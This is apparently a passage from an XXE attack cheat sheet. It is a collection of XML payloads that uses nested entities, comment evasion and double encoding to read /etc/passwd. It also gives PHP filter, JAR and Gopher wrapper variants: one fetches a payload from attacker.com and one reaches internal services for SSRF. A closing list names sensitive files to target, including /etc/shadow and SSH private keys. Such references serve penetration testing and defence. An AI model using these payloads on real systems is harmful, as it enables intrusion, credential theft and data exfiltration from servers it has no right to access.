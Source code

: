 ### Using Nested Entities
```xml
<!DOCTYPE foo [
<!ENTITY % a "<!ENTITY &#x25; b '<!ENTITY &#x26;#x25; c SYSTEM &#x27;file:///etc/passwd&#x27;>'>";
%a;
%b;
%c;
]>
```

### XML Comments Evasion
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><!-- comment --><productId>&xxe;</productId></stockCheck>
```

### Double Encoding
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///%65%74%63/%70%61%73%73%77%64"> ]>
```

## File Protocols and Wrappers

### File Protocol Variations
```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
<!ENTITY xxe SYSTEM "file://localhost/etc/passwd">
<!ENTITY xxe SYSTEM "file:/etc/passwd">
```

### PHP Wrapper Exploitation
```xml
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
```

### Java JAR Protocol (for SSRF)
```xml
<!ENTITY xxe SYSTEM "jar:http://attacker.com/payload.jar!/file.txt">
```

### Gopher Protocol (for SSRF to internal services)
```xml
<!ENTITY xxe SYSTEM "gopher://internal-service:25/1HELO%20attacker.com">
```

## Common Files to Target

### Linux Files
```
/etc/passwd
/etc/shadow
/etc/hosts
/etc/hostname
/home/[username]/.ssh/id_rsa
/proc/self/environ
/var/www/html/index.php
/var/log/apache2/access.log
```

